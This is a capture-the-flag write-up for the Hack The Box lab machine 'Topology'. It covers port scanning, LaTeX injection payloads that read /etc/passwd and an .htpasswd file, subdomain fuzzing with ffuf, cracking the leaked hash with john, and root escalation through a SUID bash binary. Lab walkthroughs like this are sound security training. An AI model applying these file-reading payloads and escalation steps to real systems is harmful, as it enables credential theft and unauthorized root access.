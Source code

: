 # Topology-HTB
Hello Guy's

Finding open ports:
1)22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

2)80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))

When i open in browser showing normal topology website.

Directory fuzzing:
Finding lots of directory but all are useless.

In main page showing latex equation generator page but this is not open.
{Add /etc/hosts file in ip and -  latex.topology.htb}

Showing a search field where you put any math formula and website throw some results.
**(Latex injection, also known as code injection, is a security vulnerability that occurs when an attacker is able to inject malicious LaTeX code into an application or system that processes LaTeX input)**

now try to find payload related to latex injection.(https://0day.work/hacking-with-latex/)

try this "$\lstinputlisting{/etc/passwd}$\" , but showing error message

again try "$\lstinputlisting{/etc/passwd}$" and get /etc/passwd file where i show a user.

Now try to find subdomains in topology.htb.

Use ffuf tool:

ffuf -u http://topology.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.toplogy.htb" -fc 200

And get "dev"

Now add /etc/hosts in dev.topology.htb file in your ip.

When I open this url showing login page, when i try to use admin:admin as a credentials but website throw (401:unauthorized) status error.

Now find apache 401 unauthorized exploit:

Now i find /var/www/dev/.htpasswd file reterived credentials which is encrypted form.

Now try this payload:

"$\lstinputlisting{/var/www/dev/.htpasswd}$"

Get credentials: 

vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTYO

Crack this hash using john:
$john hash.txt --wordlist=/home/kali/rockyou.txt ==> calculus20

Using ssh get the shell of the machine using
(vdaisley:calculus20) this credentials.

Got user.txt

Now to find root priv, linpeas.sh file is already contains in home directory.

But I use manually check sudo binary using find command:
$find / -perm -4000 -type f 2>/dev/null

I found /usr/bin/bash binary:
when i check 
$ls -ld /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash

**$/usr/bin/bash -p**

This is literally a piece of cake.

and :)Boom:) get root.

find root.txt and finally go to bed:)
